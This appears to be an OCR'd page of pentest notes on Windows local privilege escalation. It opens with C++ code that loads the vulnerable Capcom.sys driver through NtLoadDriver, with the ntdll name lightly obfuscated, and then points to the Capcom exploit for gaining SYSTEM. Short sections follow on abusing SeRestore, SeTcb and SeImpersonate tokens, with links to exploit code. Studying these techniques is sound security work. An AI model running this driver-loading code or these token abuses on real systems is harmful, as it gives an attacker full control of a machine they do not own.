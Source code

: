 ```
     // below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
    std::cout <<   "\[+\] Set Registry Keys"   << std::endl;
    NTSTATUS st1;
    UNICODE_STRING pPath;
    UNICODE_STRING pPathReg;
    PCWSTR pPathSource = L"C:\\\experiments\\\privileges\\\Capcom.sys";
    PCWSTR pPathSourceReg = L"\\\registry\\\machine\\\System\\\CurrentControlSet\\\Services\\\SomeService";
    const   char NTDLL\[\]   =   {   0x6e,   0x74,   0x64,   0x6c,   0x6c,   0x2e,   0x64,   0x6c,   0x6c,   0x00   };
    HMODULE hObsolete =   GetModuleHandleA(NTDLL);
    *(FARPROC *)&RtlInitUnicodeString =   GetProcAddress(hObsolete,   "RtlInitUnicodeString");
    *(FARPROC *)&NtLoadDriver =   GetProcAddress(hObsolete,   "NtLoadDriver");
    *(FARPROC *)&NtUnloadDriver =   GetProcAddress(hObsolete,   "NtUnloadDriver");
    
    RtlInitUnicodeString(&pPath, pPathSource);
    RtlInitUnicodeString(&pPathReg, pPathSourceReg);
    st1 =   NtLoadDriver(&pPathReg);
    std::cout <<   "\[+\] value of st1: "   << st1 <<   "\\n";
    if   (st1 == ERROR_SUCCESS)   {
        std::cout <<   "\[+\] Driver Loaded as Kernel..\\n";
        std::cout <<   "\[+\] Press \[ENTER\] to unload driver\\n";
     }
     
    getchar();
    st1 =   NtUnloadDriver(&pPathReg);
    if   (st1 == ERROR_SUCCESS)   {
        std::cout <<   "\[+\] Driver unloaded from Kernel..\\n";
        std::cout <<   "\[+\] Press \[ENTER\] to exit\\n";
        getchar();
    }
    return   0;
}
```
We can now download and compile the Capcom exploit from https://github.com/tandasat/ExploitCapcom and execute it on the system to elevate our privileges to `NT Authority\System`.
### SeRestore
**Write access** control to any file on the system, regardless of the files ACL. You can **modify services**, DLL Hijacking, set **debugger** (Image File Execution Options)… A lot of options to escalate.
### SeTcb 
If you have enabled this token you can use **KERB_S4U_LOGON** to get an **impersonation token** for any other user without knowing the credentials, **add an arbitrary group** (admins) to the token, set the **integrity level** of the token to "**medium**", and assign this token to the **current thread** (SetThreadToken).
### SeImpersonate and\or SeAssignPrimaryToken
Technique often used to escalate privileges from `Windows Service Accounts` to `NT AUTHORITY/SYSTEM`.
Cours:
[Potatoes - Windows Privilege Escalation · Jorge Lajara Website (jlajara.gitlab.io)](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
Other tools (Empire, etc.):
[Token Impersonation - Pentest Everything (gitbook.io)](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/access-token-manipultion/token-impersonation)
C++ exploit code: 
[Primary Access Token Manipulation - Red Teaming Experiments (ired.team)](https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation)
[SeImpersonate from High To System - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/seimpersonate-from-high-to-system)